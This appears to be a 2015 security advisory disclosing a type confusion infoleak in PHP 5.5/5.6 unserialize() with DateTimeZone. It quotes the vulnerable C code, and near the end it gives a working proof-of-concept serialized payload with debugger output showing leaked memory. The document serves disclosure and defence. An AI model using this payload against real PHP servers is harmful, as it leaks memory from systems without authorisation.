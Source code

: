 ### Type Confusion Infoleak Vulnerability in unserialize() with DateTimeZone [Unfix Still]
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.1.29 - Release Date: 2015.2.20
 
> A Type Confusion Vulnerability was discovered in unserialize() with DateTimeZone object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks.

Affected Versions
------------
Affected is PHP 5.6.x<br />
Affected is PHP 5.5.x

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` c
static int php_date_timezone_initialize_from_hash(zval **return_value, php_timezone_obj **tzobj, HashTable *myht TSRMLS_DC)
{
	zval            **z_timezone = NULL;
	zval            **z_timezone_type = NULL;
 
	if (zend_hash_find(myht, "timezone_type", 14, (void**) &z_timezone_type) == SUCCESS) {
		if (zend_hash_find(myht, "timezone", 9, (void**) &z_timezone) == SUCCESS) {
			convert_to_long(*z_timezone_type);
			if (SUCCESS == timezone_initialize(*tzobj, Z_STRVAL_PP(z_timezone) TSRMLS_CC)) {
				return SUCCESS;
			}
		}
	}
	return FAILURE;
}
...
static int timezone_initialize(php_timezone_obj *tzobj, /*const*/ char *tz) /* {{{ */
{
	timelib_time *dummy_t = ecalloc(1, sizeof(timelib_time));
	int           dst, not_found;
	char         *orig_tz = tz;

	dummy_t->z = timelib_parse_zone(&tz, &dst, dummy_t, &not_found, DATE_TIMEZONEDB, php_date_parse_tzfile_wrapper);
	if (not_found) {
		php_error_docref(NULL, E_WARNING, "Unknown or bad timezone (%s)", orig_tz);
```
 
The Z_STRVAL_PP macro lead to looking up an arbitrary valid memory address, and outputing a string via an warning level error message that start from this memory address.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

``` php
<?php

$data = unserialize('O:12:"DateTimeZone":2:{s:13:"timezone_type";i:1;s:8:"timezone";i:4298494896;}');

?>
```

Test the PoC on the command line, then show warning level error message:

``` php
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run test/test.php
Process 889 launched: '/usr/bin/php' (x86_64)

Warning: DateTimeZone::__wakeup(): Unknown or bad timezone (UH??AWAVAUATSH??8) in /test/test.php on line 3
Process 889 exited with status = 0 (0x00000000)
```
